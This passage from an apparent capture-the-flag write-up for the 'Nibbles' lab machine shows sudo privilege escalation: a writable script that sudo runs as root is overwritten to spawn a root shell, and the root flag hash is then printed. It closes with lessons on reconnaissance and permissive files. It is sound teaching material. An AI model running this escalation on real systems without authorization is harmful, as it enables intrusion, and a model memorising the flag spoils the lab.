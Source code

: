 ```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '!#/bin/sh' > monitor.sh
echo '!#/bin/sh' > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'bash' >> monitor.sh
echo 'bash' >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
cat monitor.sh  #Ignore this
!#/bin/sh
bash
```

Now Let us execute the file, assigning the execute permissions, and we would be root.

```bash
#Setting execute permissions
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 15 Sep  5 07:37 monitor.sh

nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh  #copy the path, as executing with file name won't work
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler/personal/stuff#
root@Nibbles:/home/nibbler/personal/stuff# whoami            
root
root@Nibbles:/home/nibbler/personal/stuff# id
uid=0(root) gid=0(root) groups=0(root)
```

So we are now root(#), lets get the root flag.

```bash
root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
84522082a88d8486069bec7ca27a7cb0
root@Nibbles:/home/nibbler/personal/stuff# 
```
### Learnings

1. In case of Web (80/443) or any other web service ports exposed, source code can sometimes help to get in right direction.
2. Source code (or view source) can also help us get some directories on the machine.
3. If Gobuster or other similar tools dont give results, change endpoint to on of the directories gained from the previous Learning (L2).
4. Always check the overly permissive files that execute as other users and writable by the user you are.
5. In case of any Application/CMS discovered, always check for the default credentials (username:password).
